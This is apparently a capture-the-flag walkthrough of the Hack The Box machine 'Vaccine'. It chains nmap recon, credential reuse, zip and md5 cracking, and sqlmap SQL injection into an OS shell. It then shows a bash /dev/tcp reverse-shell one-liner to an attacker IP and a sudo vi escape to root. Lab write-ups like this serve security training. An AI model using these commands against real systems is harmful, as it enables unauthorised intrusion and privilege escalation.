 # hackthebox.eu box "Vaccine"

## 1. Recon

### nmap

```
vagrant@vagrant-virtualbox ~> nmap 10.10.10.46 -sV -sC
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 14:53 CDT
Nmap scan report for 10.10.10.46
Host is up (0.049s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.57 seconds
```

We can see that ftp, ssh, and http are open services.

## 2. FTP credentials

Reusing credentials from the previous box, 'Oopsie', from FileZilla XML file:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
```

We connect and download [`backup.zip`](downloaded-files/backup.zip) file.

## 3. Cracking the zip file password

I used the rockyou.txt wordlist to crack the zip file's password.

    fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip

The password ended up being `741852963`.

## 4. Hardcoded password hash

In `index.php` on line 5, we can see this:

```php
if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
```

This means our cred is

    admin:2cb42f8734ea607eefed3b70af13bbd3

I used an online md5 database, and retrieved:

    admin:qwerty789

I could have used `hashcat` if the online md5 database did not yield results.

## 5. Logging into the site

I logged into the site using `admin:qwerty789` and noticed an SQL injectable form.

<http://10.10.10.46/dashboard.php?search=a>

## 6. SQL Injection into reverse shell

So I got the PHPSESSID cookie and got a reverse shell.

    sqlmap "http://10.10.10.46/dashboard.php?search=test" --cookie="PHPSESSID=jvf28f80n6p99j8nkfa9nq3tmm" --os-shell --random-agent

I then started a new one as sqlmap's reverse shell is limited.

### Upgrading from sqlmap reverse shell

Attacker runs (to receive TCP connection):

    nc -lvp 1234

Victim runs (to establish TCP connection):

    bash -c 'bash -i >& /dev/tcp/10.10.14.184/1234 0>&1'

And to upgrade shell:

    SHELL=/bin/bash script -q /dev/null

We are now logged in as the `postgres` user.

## 7. More hardcoded credentials

We `cd` to `/var/www/`, and inside `dashboard.php` on line 41 is this line:

    $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");

## 8. Using `vi` to get a root shell

Now we can run `sudo -l` to list the commands that `postgres` is allowed to run.

    postgres@vaccine:/var/www/html$ sudo -l        
    sudo -l
    [sudo] password for postgres: P@s5w0rd!

    Matching Defaults entries for postgres on vaccine:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User postgres may run the following commands on vaccine:
        (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf

So we can run `/bin/vi /etc/postgresql/11/main/pg_hba.conf`.

If I run `vi` as root with:

    sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

And then, inside `vi`, type:

    <ESC>:!/bin/bash<ENTER>

I should spawn a root shell. Let's try it.

See the wonky output below. Line 11. `^[` is `<ESC>`. Below the content of the `/etc/postgresql/11/main/pg_hba.conf` file, you can see shell commands.


    # DO NOT DISABLE!
    # If you change this first entry you will need to make sure that the
    # database superuser can access the database using some other method.
    # Noninteractive access to all databases is required during automatic
    # maintenance (custom daily cronjobs, replication, and similar tasks).
    #
    # Database administrative login by Unix domain socket

    # TYPE  DATABASE        USER            ADDRESS                 METHOD                     HERE
                                                                                                |
    local   all             postgres                                iden^[:!/bin/bash   <-------/
    # "local" is for Unix domain socket connections only
    local   all             all                                     peer
    # IPv4 local connections:
    host    all             all             127.0.0.1/32            md5
    # IPv6 local connections:
    host    all             all             ::1/128                 md5
    # Allow replication connections from localhost, by a user with the
    # replication privilege.
    local   replication     all                                     peer
    host    replication     all             127.0.0.1/32            md5
    host    replication     all             ::1/128                 md5
    :!/bin/bash
    root@vaccine:/var/lib/postgresql/11/main# whoami
    whoami
    root
    root@vaccine:/var/lib/postgresql/11/main# 

We're root!